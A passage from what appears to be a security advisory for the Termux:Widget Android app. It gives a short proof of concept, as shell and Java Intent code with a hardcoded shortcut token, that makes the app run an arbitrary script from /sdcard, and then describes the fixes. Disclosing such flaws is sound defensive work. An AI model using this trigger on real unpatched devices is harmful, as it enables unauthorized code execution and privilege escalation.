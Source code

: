 4. Create an exploit file from termux terminal: `echo 'whoami; su -c whoami; sleep 5' > /sdcard/exploit.sh`

5. Trigger the exploit from termux terminal or `adb shell`: `am start --user 0 -n com.termux.widget/.TermuxLaunchShortcutActivity -d /sdcard/exploit.sh --es com.termux.shortcut.token 22e30b81-5d67-4ee3-be0e-66169f637025`

Or use java from any app.

```java
	Intent intent = new Intent();
	intent.setClassName("com.termux.widget", "com.termux.widget.TermuxLaunchShortcutActivity");
	intent.setData(Uri.parse("/sdcard/exploit.sh"));
	intent.putExtra("com.termux.shortcut.token", "22e30b81-5d67-4ee3-be0e-66169f637025");
	startActivity(intent);
```

The termux app will run the `/sdcard/exploit.sh` script with `/data/data/com.termux/files/usr/bin/sh` and `/sdcard` being mounted as `noexec` would not be an issue.

### 2. Fix

1. Use `ShortcutManager` APIs to create pinned shortcut on android version `>=8`. This is better way to create shortcuts since launcher does not get access to shortcut data of the app and android itself stores them, so even the launcher app would not get the token and would not be able to run any scripts whose shortcut was not explicitly created by the user. For more info on shortcut types, check https://github.com/agnostic-apollo/TaskerLauncherShortcut#shortcut-types. ([`e94d7777`](https://github.com/termux/termux-widget/commit/e94d7777))

2. The token being previously used and shortcuts created on older versions of `Termux:Widget` were invalidated so that in case a malicious app already had the token, it could not use it anymore and so that users on Android `>= 8` were forced to re-create their shortcuts with safer pinned shortcuts API instead of continuing to use the old unsafer static shortcuts API. ([`32f344ee`](https://github.com/termux/termux-widget/commit/32f344ee))

3. The canonical path of the executable received by `TermuxLaunchShortcutActivity` was [found](https://github.com/termux/termux-widget/blob/v0.13.0/app/src/main/java/com/termux/widget/TermuxWidgetProvider.java#L183) before it was processed. Shortcuts that were broken symlinks or whose canonical path was not under the `~/.shortcuts` or `~/.termux` directory were [not shown](https://github.com/termux/termux-widget/blob/v0.13.0/app/src/main/java/com/termux/widget/TermuxWidgetService.java#L30) and [execution for the later was not allowed](https://github.com/termux/termux-widget/blob/v0.13.0/app/src/main/java/com/termux/widget/TermuxWidgetProvider.java#L186) even if the path was sent. ([`32f344ee`](https://github.com/termux/termux-widget/commit/32f344ee), [`32f344ee`](https://github.com/termux/termux-widget/commit/13954b8b), [`bcb0ab6c`](https://github.com/termux/termux-widget/commit/bcb0ab6c))

Using pinned shortcuts on android version `>=8` and not allowing execution of files whose canonical path was not under the `~/.shortcuts` or `~/.termux` directory provides reasonable security against any arbitrary code execution or privilege escalation. Users who are on Android versions `< 8` would still have to use static shortcuts and should be careful about which apps they create a shortcut in, since such apps would be able to execute any scripts under the allowed directories. Users generally should be very careful about which launcher or non-launcher shortcut apps (like [Shortcut Maker](https://play.google.com/store/apps/details?id=rk.android.app.shortcutmaker)) they install on their device, since these apps get to execute dangerous shortcuts for apps which can have serious consequences if not protected properly by the apps.
